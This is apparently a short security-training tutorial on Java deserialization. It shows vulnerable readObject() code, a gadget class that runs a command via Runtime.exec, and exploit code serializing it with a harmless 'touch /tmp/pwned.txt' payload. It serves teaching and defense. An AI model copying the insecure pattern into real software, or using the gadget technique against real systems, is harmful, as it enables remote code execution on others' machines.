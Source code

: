 == The Simplest Exploit

=== Vulnerable code

The following is a well-known example for a Java Deserialization vulnerability.

[source,java]
----
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
----

It is expecting an `AcmeObject` object, but it will execute `readObject()` before the casting ocurs.
If an attacker finds the proper class implementing dangerous operations in `readObject()`, he could serialize that object and force the vulnerable application to performe those actions.

=== Class included in ClassPath

Attackers need to find a class in the classpath that supports serialization and with dangerous implementations on `readObject()`.

[source,java]
----
public class GadgetObject implements Serializable {
    String cmd;

    private void readObject( ObjectInputStream stream ) throws Exception {
        Runtime.getRuntime().exec(cmd);
    }
}
----

=== Exploit

If the java class shown above exists, attackers can serialize that object and obtain Remote Code Execution.

[source,java]
----
GadgetObject go = new GadgetObject();
go.cmd = "touch /tmp/pwned.txt";

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
----
